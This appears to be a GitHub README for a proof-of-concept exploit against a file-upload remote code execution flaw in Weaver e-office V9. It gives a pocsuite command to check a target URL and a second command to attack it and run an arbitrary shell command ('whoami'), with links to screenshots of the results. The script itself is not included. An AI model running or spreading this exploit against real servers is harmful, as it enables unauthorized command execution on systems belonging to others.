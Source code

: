 # weaverOA_v9_ALL_upload_RCE

POC
pocsuite -r e-office_V9_upload_POC_RCE.py -u url --verify
![1650944925(1)](https://user-images.githubusercontent.com/54984589/165217112-9aaaaccf-934d-44cd-ab6a-691d66a737c0.png)


EXP 
pocsuite -r e-office_V9_upload_POC_RCE.py -u url --attack --command "whoami"
![1650944833(1)](https://user-images.githubusercontent.com/54984589/165216970-16d56c1e-3c2e-4062-8fbb-e400e2d74bc4.png)
